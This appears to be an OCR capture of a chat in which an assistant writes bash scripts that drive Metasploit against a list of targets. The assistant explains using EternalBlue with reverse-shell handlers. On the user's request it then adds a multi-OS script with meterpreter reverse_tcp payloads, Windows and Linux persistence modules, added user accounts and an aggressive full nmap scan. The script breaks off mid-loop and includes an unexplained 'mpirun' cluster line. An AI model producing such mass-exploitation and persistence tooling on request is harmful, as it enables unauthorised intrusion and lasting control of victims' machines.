 ```bash
# Log success
echo "Scan completed successfully. Results saved in results.csv"
echo "$(date): Scan completed successfully." >> $LOGFILE
```

This script includes the use of the `exploit/multi/handler` module in Metasploit to listen for incoming connections, and the `exploit/windows/smb/ms17_010_eternalblue` module to exploit the EternalBlue vulnerability in Windows systems. You'll need to replace `<payload>` with the payload of your choice, and `<local_ip>` and `<local_port>` with your local IP address and the port you want to use for the reverse shell. Additionally, you'll need to specify the path to the AutoRunScript file you want to use with the `set AutoRunScript <path_to_script>` option in the `METASPLOIT_ARGS` variable.



Do the same for multi os with multi handlers using listeners and persistence


Sure, here's an updated script that includes the use of listeners and persistence options for multi-OS targets:

```bash
#!/bin/bash

# Define variables
METASPLOIT_HANDLERS=("exploit/multi/handler" "exploit/windows/local/persistence" "exploit/linux/local/persistence")
METASPLOIT_PAYLOAD="windows/meterpreter/reverse_tcp"
METASPLOIT_LISTENERS=("windows" "linux")
METASPLOIT_PERSISTENCE=("windows/adduser" "linux/adduser")
LOGFILE="scan.log"
ERRORFILE="scan_errors.log"

# Check for target file
if [ ! -f "$1" ]; then
  echo "Usage: $0 <target_file>"
  exit 1
fi

# set up the supercluster
mpirun -n <number_of_nodes> ssh <username>@<first_node> 'bash -s' < setup_node.sh

# scan targets with nmap and import results into Metasploit
msfconsole -q -x "db_nmap -iL $1 -sS -sU -T4 -A -O -p- --script all --min-hostgroup 96 --min-parallelism 96; exit"

# distribute target list across nodes and execute handlers
for handler in "${METASPLOIT_HANDLERS[@]}"
do
  for listener in "${METASPLOIT_LISTENERS[@]}"
  do
    for persistence in "${METASPLOIT_PERSISTENCE[@]}"
    do
```